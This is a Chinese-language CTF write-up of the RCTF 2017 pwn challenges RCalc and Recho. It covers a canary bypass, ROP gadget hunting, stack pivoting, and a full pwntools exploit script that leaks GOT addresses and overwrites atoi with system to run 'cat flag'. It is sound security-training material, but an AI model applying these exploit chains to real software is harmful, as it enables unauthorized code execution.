 ```yaml
---
title: ROP小结
date: 2017-05-23 12:01:12
tags: bin
---
```


这次RCTF，对于本以为掌握了的ROP，学到了新的姿势，在这里总结下。

<!--more-->

本文不进行实例调试，用脑子DEBUG......详细文件可以去我的github上找...

# RCalc
首先是计算器这题，作者自己实现了一个canary，首先在每个函数开头通过`sub_400AAB`函数生成了一个随机数，存放到堆中，和栈上面，然后在函数结尾使用`sub_400B92`函数检查这个栈上的随机数和堆中的随机数是否一样。

然后可以去看看`sub_400A06`函数，在存放canary的堆上面有个一个0x100的堆，用于存放需要保存的计算结果，这个结果保存的函数没设定边界值，所以可以覆盖到canary的堆，从而覆盖到canary。

绕过canary后，在`sub_400FA2`函数中，scanf函数存在栈溢出，正常情况下想，之后就是通过ROP很容易就能getshell了。

但是，这里有一个坑点，scanf函数的`%s`不能出现`\x09`, `\x0a`, `\x0b`, `\x0c`, `\x0d`, `\x20`

经过测试，如果输入中出现这几个字符，会被转成`\x00`，或者之后的数据就不会被读入变量中。

这对我来说非常致命，因为got表的地址中都含有`\x20`，还有一些ROP被这些字符限制着，当时还想到了一个别的思路，比如利用`read`函数或者`sub_400c4e`函数，但是没找到控制rdx的ROP所以没法用`read`函数，另外，就算能调用，也没有思路下一步该怎么做，该读到什么位置？然后该怎么通过`read`继续溢出？

而关于`sub_400c4e`函数，虽然函数中含有`\x0c`字符，但是我找到了一个

```
add eax, 0x48002018 ; test eax, eax ; je 0x400803 ; call rax
```

通过这个ROP就能调用`sub_400c4e`了，而`rdx`为最后一次choice输入的值，因为处理这个输入值得时候有个cdqe，虽然如果我输入0x100000005在判断中也是5，通过这个思路，可以让`sub_400c4e`函数中进行溢出，rdi和rsi也都是可控的。

但是在测试中发现，首先我不知道栈地址，所以没法控制rsi，而在`sub_400FA2`函数的ret指令时，rsi正好就是一个栈地址，在当前栈地址的很上面，这种情况下，栈溢出会覆盖掉`sub_400c4e`的局部变量，导致没法成功进行栈溢出。

在比赛结束之后，看来国外的一篇wp后，学到了两个知识点: <http://hama.hatenadiary.jp/entry/2017/05/22/092142>

首先是他们找的ROP：

```
mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword [r12+rbx*8];
pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15; ret ;
```

通过这个ROP基本可以调用任意函数了，我找ROP一般是使用默认的命令:

```
$ ROPgadget --binary RCalc
```

但是却没有这个ROP，需要用

```
$ ROPgadget --binary RCalc --depth 11
```

才有第二句ROP，而第一句还是没有。。所以我发现，我在找ROP上还是太菜了....

*UPDATE 20170528*
---------------
经过大佬教育，原来这是64位程序中存在的一个万能ROP，这两句ROP在同一个函数里，而这个函数是gcc编译进程序中去的

-------------------------------

其实，当时我已经基本可以做到调用任意函数了，但是关键点还是第二点。

使用:

```
leave  ; ret ;
```

来修改栈地址，这样一来思路就很清晰了。
找一段可以写的地址，比如bss区域，写入ROP，然后再把rsp修改成该地址，就可以getshell了，同read函数向bss区域写值，然后使用`leave`修改rsp

我还是太菜，从来没想过修改栈地址......

# Recho
本来也是一道简单的栈溢出，但循环的判断:

```
while(read(0, buf, 0x10)>0)
```

要栈溢出首先得先停了这个循环，在shell中可以使用ctrl+d表示EOF，但是脚本咋写？
发现pwntools可以用下面的命令发送EOF

```
s = remote(xxxx,xx)
s.sock.shutdown(socket.SHUT_RW)
```

但是这样我们没法继续输入了，所以我们需要发送一次payload就getflag，我们只能getflag而不能getshell，因为服务器已经关闭了接收我们数据的连接。

这题没有libc，所以写ROP又是一个技术活....

使用下面这个PoC:

```
#!/usr/bin/env python
# coding=utf-8

from pwn import *

context.log_level = "debug"
# context.terminal = ['terminator', '-x', 'bash', '-c']
debug = 1
if debug:
    p = remote("127.0.0.1", 10001)
else:
    p = remote("recho.2017.teamrois.cn", 9527)
e = ELF('Recho')
# gdb.attach(p)
padding = 0x38*'a'          #padding
# write(1, got['read'], 8)
payload = ""
payload += p64(0x4008a3)  # pop rdi;ret
payload += p64(1)         # rdi = 1
payload += p64(0x4008a1)  # pop rsi; pop r15; ret
payload += p64(e.got['read'])  # rsi = got.plt read
payload += p64(0)         # r15 = 0
payload += p64(0x4006fe)  # pop rdx;ret
payload += p64(8)         # rdx = 8
payload += p64(e.symbols['write'])  # call write
# write(1, got['write'], 8)
payload += p64(0x4008a3)  # pop rdi;ret
payload += p64(1)         # rdi = 1
payload += p64(0x4008a1)  # pop rsi; pop r15; ret
payload += p64(e.got['atoi'])  # rsi = got.plt atoi
payload += p64(0)         # r15 = 0
payload += p64(0x4006fe)  # pop rdx;ret
payload += p64(8)         # rdx = 8
payload += p64(e.symbols['write'])  # call write


p.readuntil("server!\n")
p.sendline('1000')
p.sendline(padding + payload)
p.recv()
p.sock.shutdown(1)
print u64(p.recv(8)) - u64(p.recv(8))
p.interactive()
```

经过远程和本地测试对比，发现远程的libc应该和我本地的一样

然后使用本地的libc写payload就好了。。

思路是改写got表中随便一个函数的地址改成system就好了，比如我修改的是atoi函数，然后找binary中的ROP，找到下面三个：

```
pop rdi; ret;
pop rax; ret;
add [rdi], al; ret;
```

通过这三个，我们就能修改偏移了，比如:

```
payload += p64(0x4008a3)+p64(0x601040)    # pop rdi; ret;   rdi = 0x601040; atoi
payload += p64(0x4006fc)+p64(0x10) + p64(0x40070d)  # pop rax; ret;   rax = 0x10; add [rdi], al; ret;

payload += p64(0x4008a3)+p64(0x601041)    # pop rdi; ret;   rdi = 0x601041;
payload += p64(0x4006fc)+p64(229) + p64(0x40070d)   # pop rax; ret;   rax=0xe5;   add [rdi], al; ret;
```

这相当于got表中atoi函数的地址加上0xe510

同样再使用上面的ROP往bss中写入`cat flag`，最后输出的指令是`system('cat flag')`

# 总结
本以为栈溢出都会了，其实还是太菜.....